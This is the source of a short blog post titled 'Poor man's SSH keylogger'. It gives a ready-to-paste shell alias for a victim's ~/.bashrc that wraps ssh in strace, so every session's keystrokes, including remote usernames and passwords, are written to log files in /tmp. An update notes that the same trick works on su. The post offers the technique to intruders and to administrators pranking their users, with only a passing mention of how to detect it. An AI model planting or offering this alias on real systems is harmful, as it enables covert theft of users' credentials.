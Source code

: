 ```yaml
---
layout: post
title: Poor man's SSH keylogger
summary: "If you have compromised a system (while doing penetration testing, obviously), or if you are just a BOFH that wishes to have a little fun, you can do something as easy as this..."
tags: [ ssh, keylogger ]
categories: code
---
```


If you have compromised a system (while doing penetration testing, obviously), or if you are just a BOFH that wishes to have a little fun, you can do something as easy as this:

Edit the users ~/.bashrc and insert the following alias:

<pre>
ssh='strace   -o   /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh' 
</pre>

Now, every time a user uses the ssh command, he will be using this alias, and all his keystrokes (including the remote system's username/password), will be logged to /tmp.

<img src="https://media.tumblr.com/tumblr_lg1sdtJp921qevk7j.png" style="float:left;margin:0px 30px 0px 0px;" />

As I said, this is nothing fancy, and a quick look at the env, at the .bashrc or even at /tmp is enough to spot this. However, for a quick simple solution, it is more than enough.

Update: as one of the readers pointed out, this also works with su, using the exact same trick.
